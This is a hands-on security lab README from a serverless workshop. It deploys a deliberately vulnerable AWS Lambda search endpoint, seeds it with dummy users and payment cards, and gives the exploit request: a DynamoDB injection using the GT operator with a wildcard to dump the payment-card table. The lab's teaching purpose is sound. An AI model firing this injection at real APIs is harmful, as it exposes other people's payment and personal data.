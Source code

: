 # **DynamoDB Injection**

---

> #### This attack/payload has been documented [here](https://medium.com/appsecengineer/dynamodb-injection-1db99c2454ac) article.
> #### On reading, you'll see that its a NoSQL Injection attack that's predicated on using the `gt` operator. One of the main reasons that this attack is made possible, is because of badly configured IAM privileges.

### **Lab Image : `Serverless`**

---

> **Note:** If you have not setup your aws cli follow [AWS-CLI-Configuration](../aws-configure/README.md) under the `Setup` section*

#### Step 1:

* Navigate to the `Serverless-Workshop` directory on the provisioned server

```commandline
cd /root/labs/Serverless-Workshop/
```

* Install the necessary requirements

```commandline
pip3 install pipenv
```
```commandline
pipenv shell
```
```commandline
pipenv install boto3
```
```commandline
pipenv install faker
```
```commandline
pipenv install huepy
```

---

#### Step 2:

* Navigate to `DynamoDB-Injection` directory

```commandline
cd /root/labs/Serverless-Workshop/DynamoDB-Injection
```

* Install the necessary requirements

```commandline
sls plugin install -n serverless-python-requirements
```

---

#### Step 3:

* Take a look at the contents of the `serverless.yml` [here](https://github.com/we45/Serverless-Workshop/blob/master/DynamoDB-Injection/serverless.yml)

```commandline
cat serverless.yml
```

---

#### Step 4:

* Deploy the function and wait for the deployment to complete.

```commandline
sls deploy
```

* Once the deployment is complete, an API endpoint(s) is displayed.

---

#### Step 5:

* Navigate to the `ops` directory within `DynamoDB-Injection`

```commandline
cd /root/labs/Serverless-Workshop/DynamoDB-Injection/ops
```

* Create dummy users

```commandline
python create_dummies.py users we45-sls-users
```

* Create dummy payment cards

```commandline
python create_dummies.py cards we45-sls-payments
```

---

#### Step 6:

* Run a genuine search against the database

```commandline
http POST <https://xxxx.execute-api.us-east-1.amazonaws.com/dev/dynamo-search> db=we45-sls-users search_term=Mark search_operator=EQ search_field=first_name
```
> ###### Replace the `URL` from **STEP 4**

* Now run the exploit

```commandline
http POST <https://xxxx.execute-api.us-east-1.amazonaws.com/dev/dynamo-search> db=we45-sls-payments search_term="*" search_operator=GT search_field=payment-card
```
> ###### Replace the `URL` from **STEP 4**

---

#### Step 7:

* Navigate to `DynamoDB-Injection` directory

```commandline
cd /root/labs/Serverless-Workshop/DynamoDB-Injection
```

* Remove the serverless function that was deployed

```commandline
sls remove --force
```

* Deactivate and exit from the python virtual-environment

```commandline
cd /root/labs/Serverless-Workshop/
```
```commandline
deactivate
```
```commandline
exit
```
